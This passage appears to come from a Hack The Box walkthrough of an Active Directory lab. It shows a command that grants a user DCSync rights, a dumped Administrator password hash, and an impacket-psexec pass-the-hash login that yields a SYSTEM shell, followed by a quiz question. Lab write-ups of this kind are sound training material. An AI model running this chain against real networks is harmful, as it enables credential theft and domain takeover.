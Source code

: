 ```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity DC="htb,DC=local" -PrincipalIdentity dana -Rights DCSync
```
The answer:

![alt text](image-10.png)

Administrator hash:

```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
Impacket-PsExec offers psexec like functionality. This will give the interactive Windows shell. 

The command:
```
└──╼ [★]$ impacket-psexec administrator@10.129.95.210 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.95.210.....
[*] Found writable share ADMIN$
[*] Uploading file gQODkfue.exe
[*] Opening SVCManager on 10.129.95.210.....
[*] Creating service YEeL on 10.129.95.210.....
[*] Starting service YEeL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

Question 7:
Which group has WriteDACL permissions over the HTB.LOCAL domain? Give the group name without the @htb.local.
